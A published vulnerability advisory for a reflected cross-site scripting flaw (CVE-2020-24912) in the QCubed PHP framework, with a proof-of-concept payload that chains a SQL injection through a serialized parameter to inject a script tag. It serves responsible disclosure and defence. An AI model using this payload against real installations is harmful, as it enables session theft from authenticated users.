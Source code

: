 EXP
---

    QCube Cross-Site-Scripting
    ======================
    | Identifier: | AIT-SA-20210215-03 |
    | Target: | QCubed Framework |
    | Vendor: | QCubed |
    | Version: | all versions including 3.1.1 |
    | CVE: | CVE-2020-24912 |
    | Accessibility: | Remote |
    | Severity: | High |
    | Author: | Wolfgang Hotwagner (AIT Austrian Institute of Technology) |

    SUMMARY
    =======
    QCubed is a PHP Model-View-Controller Rappid Application Development framework. (https://github.com/qcubed/qcubed)

    VULNERABILITY DESCRIPTION
    =========================
    A reflected cross-site scripting (XSS) vulnerability in qcubed (all versions including 3.1.1) in profile.php via the stQuery-parameter allows unauthenticated attackers to steal sessions of authenticated users.

    PROOF OF CONCEPT
    =================
    The XSS occurs because the SQL-output in profile.php is not sanitized properly. Since we are able to tamper the output using a SQL-injection(CVE-2020-24913), we can easily output a common XSS string.

    We use the following payload(unencoded):

    ```
    a:1:{i:0;a:3:{s:12:"objBacktrace";a:1:{s:4:"args";a:1:{i:0;s:3:"PWN";}}s:8:"strQuery";s:112:"select version(); select convert_from(decode($$PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4K$$,$$base64$$),$$utf-8$$)";s:11:"dblTimeInfo";s:1:"1";}}
    ```

    PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4K is unencoded:

    ```
    "<script>alert(‘xss’)</script>"
    ```

    VULNERABLE VERSIONS
    ===================
    All versions including 3.1.1 are affected.


    TESTED VERSIONS
    ===============
    QCubed 3.1.1

    IMPACT
    ======
    An unauthenticated attacker could  steal sessions of authenticated users.

    MITIGATION
    ==========

    A patch was delivered by QCubed that allows to disable the profile-functionality( https://github.com/qcubed/qcubed/pull/1320/files ).

    VENDOR CONTACT TIMELINE
    =======================

    | 2020-04-19 | Contacting the vendor |
    | 2020-04-19 | Vendor replied |
    | 2020-05-01 | Vendor released a patch at Github |
    | 2021-02-15 | Public disclosure |

    ADVISORY URL
    ============
    [https://www.ait.ac.at/ait-sa-20210215-03-xss-qcubed](https://www.ait.ac.at/ait-sa-20210215-03-xss-qcubed)